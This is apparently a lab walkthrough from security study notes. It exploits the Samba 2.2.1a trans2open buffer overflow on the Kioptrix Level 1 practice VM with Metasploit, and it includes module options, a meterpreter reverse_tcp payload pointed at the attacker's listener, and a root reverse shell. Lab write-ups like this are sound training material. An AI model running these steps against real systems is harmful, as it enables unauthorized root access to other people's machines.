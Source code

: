 # Exploit SMB

## Exploit Kioptrix Level 1

### Attacking SMB

From Enumeration:

- Port 139 (SMB)
- 139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
- Unix (Samba 2.2.1a)

Research:

- Google search for Samba 2.2.1a exploit
- Exploit DB:
  - [Exploit 10](https://www.exploit-db.com/exploits/10)
  - [Exploit 7](https://www.exploit-db.com/exploits/7)
- Rapid7 (Metasploit):
  - [Rapid7 Exploit - Linux/Samba/Trans2open](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)

Note: The exploit targets a buffer overflow vulnerability found in Samba versions 2.2.0 to 2.2.8. It specifically exploits x86 Linux systems that do not have the "noexec stack" option set. Please note that some older versions of RedHat may not be vulnerable if they do not allow anonymous access to IPC. Confirm whether anonymous access to IPC is available.

---

#### Victim Information

- Victim IP: 192.168.247.129
- Attacker IP: 192.168.247.128

---
---
SEARCHSPLOIT <query>

searchsploit samba 2.2

Image

Probable 'trans2open' attack

BOOT UP METASPLOIT

Search for 'trans2open' inside Metasploit. During enumeration, a Rapid7 link was identified.

![Image]([image 2](https://github.com/CyberSec-Monkey/Zero2H4x0r/blob/main/exploitation%20intro/exploit%20smb/image%202.png))

During enumeration, it was identified that the system was running RedHat, indicating a Linux system. Choose option 1 for Linux x86.

View options.

Set RHOSTS <victim IP>.

Check if the IP was set.

bash

msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

bash

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
RHOSTS            yes              The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT             139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

yaml

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
LHOST             192.168.247.128  yes       The listen address (an interface may be specified)
LPORT             4444             yes       The listen port

Exploit target:

diff

Id  Name
--  ----
0   Samba 2.2.x - Bruteforce

scss

msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.247.129
RHOSTS => 192.168.247.129
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

bash

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
RHOSTS            192.168.247.129  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT             139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

yaml

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
LHOST             192.168.247.128  yes       The listen address (an interface may be specified)
LPORT             4444             yes       The listen port

Exploit target:

diff

Id  Name
--  ----
0   Samba 2.2.x - Bruteforce

NOTE >>> Default meterpreter ports will probably get picked up...

Run or exploit

![Image](image 3.png)

Sessions dying. Time to cancel and check options.

Second time checking options after payload did not work. Meterpreter offers payload options.

![Image](image 4.png)

Current payload is staged. See the ///

![Image](image 5.png)

Change payload to non-staged. Check with options.

Exploit!

![Image](image 6.png)

Reverse shell with root access!!!!



